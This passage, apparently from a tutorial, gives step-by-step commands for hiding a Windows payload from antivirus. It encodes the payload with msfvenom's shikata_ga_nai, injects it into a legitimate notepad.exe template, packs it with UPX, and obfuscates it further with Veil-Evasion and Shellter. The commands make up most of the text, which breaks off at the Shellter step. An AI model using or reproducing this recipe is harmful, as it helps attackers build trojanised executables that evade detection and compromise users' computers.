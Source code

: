 2. **Encode the payload using an encoder such as `x86/shikata_ga_nai`:**

```bash
msfvenom -p - --platform windows -a x86 -e x86/shikata_ga_nai -i 10 < initial_payload.raw -f raw -o encoded_payload.raw
```

### Step 3: Use Custom Template

3. **Combine the encoded payload with a legitimate executable template:**

Download a legitimate executable to use as a template. For example, use `notepad.exe` from a Windows system.

```bash
cp /path/to/legit/notepad.exe /path/to/workdir/legit_notepad.exe
```

Use `msfvenom` to inject the encoded payload into the legitimate executable:

```bash
msfvenom -p - --platform windows -a x86 -x /path/to/workdir/legit_notepad.exe -e x86/shikata_ga_nai -i 10 -k -f exe -o /path/to/workdir/payload_custom.exe < encoded_payload.raw
```

### Step 4: Use a Packer

4. **Pack the payload using UPX:**

```bash
upx --best --lzma /path/to/workdir/payload_custom.exe -o /path/to/workdir/payload_packed.exe
```

### Step 5: Use External Tools for Obfuscation

5. **Use Veil-Evasion to further obfuscate the payload:**

First, install Veil-Evasion:

```bash
git clone https://github.com/Veil-Framework/Veil.git
cd Veil/
./config/setup.sh --force --silent
```

Generate the payload using Veil:

```bash
./Veil.py
```

Follow the prompts in Veil to use a payload like `python/shellcode_inject/aes_encrypt` and provide the `encoded_payload.raw` when prompted for the payload.

### Step 6: Add Additional Obfuscation

6. **Use Shellter for additional obfuscation:**

Install Shellter if it's not already installed:
